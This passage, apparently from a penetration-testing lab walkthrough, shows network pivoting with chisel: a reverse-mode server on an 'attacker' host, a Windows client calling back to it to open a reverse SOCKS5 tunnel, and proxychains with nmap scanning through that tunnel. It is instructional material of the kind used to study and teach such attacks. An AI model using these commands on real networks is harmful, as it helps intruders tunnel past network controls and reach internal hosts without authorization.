 Leave the following SOCKS5 configuration:

```shell
❯ tail -n 2 /etc/proxychains.conf
socks5 	127.0.0.1 1080
```

Now on the attacker (Linux) host:

```shell
❯ ./chisel_1.7.7_linux_amd64 server -p 9292 --reverse
2022/03/07 14:12:03 server: Reverse tunnelling enabled
2022/03/07 14:12:03 server: Fingerprint oswwvQ0i0qhUScfY0AJZQPzhG3TVLMaF5mFonQ/6IJQ=
2022/03/07 14:12:03 server: Listening on http://0.0.0.0:9292
```

Alternatively, we could the following flag:

```shell
./chisel_1.7.7_linux_amd64 server -p 9292 --socks5 --reverse
```

Then in Windows connect to our SOCKS5 proxy:

```powershell
PS C:\Users\user> .\chisel.exe client 192.168.119.130:9292 R:socks
2022/03/07 15:13:36 client: Connecting to ws://192.168.119.130:9292
2022/03/07 15:13:36 client: Connected (Latency 1.4047ms)
```

Alternatively, if we want to specify a SOCKS5 port we can do the following:

```powershell
.\chisel.exe client 192.168.119.130:9292 R:5000:socks
```

In our chisel output from the attacker host, we can see that a session was created on port 1080:

```shell
2022/03/07 14:13:36 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

We can use `ss` to dup our socket statistics:

```shell
❯ ss -tnlp
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process
LISTEN    0         4096             127.0.0.1:1080             0.0.0.0:*        users:(("chisel_1.7.7_li",pid=125026,fd=8))
LISTEN    0         4096                     *:9292                   *:*        users:(("chisel_1.7.7_li",pid=125026,fd=6))
```

We have port 1080 listening on localhost (127.0.0.1) as we can see from the nmap scan:

```shell
❯ sudo proxychains nmap -p 445 localhost -Pn -sT
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-07 14:41 EST
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:445  ...  OK
Nmap scan report for localhost (127.0.0.1)
Host is up (0.0052s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
```
